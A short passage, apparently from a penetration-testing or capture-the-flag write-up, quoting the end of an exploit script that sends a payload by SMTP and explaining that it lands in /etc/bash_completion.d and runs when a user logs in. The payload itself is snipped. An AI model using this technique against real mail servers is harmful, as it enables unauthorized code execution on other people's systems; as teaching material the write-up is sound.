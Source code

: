 ```bash
    s.send("\r\n.\r\n")
    recv(s)
    s.send("quit\r\n")
    recv(s)
    s.close()
    print "[+]Done! Payload will be executed once somebody logs in."
< .. snip .. >
```

What happens here is the payload is sent to the user in the body of the email. Remembering that the user's mail directory is mapped to */etc/bash_completion.d*, a file is created within that directory containing the payload. When a user logs into the mail server, the */etc/bash_completion.d* directory (and its contents) are sourced, and the payload is executed.

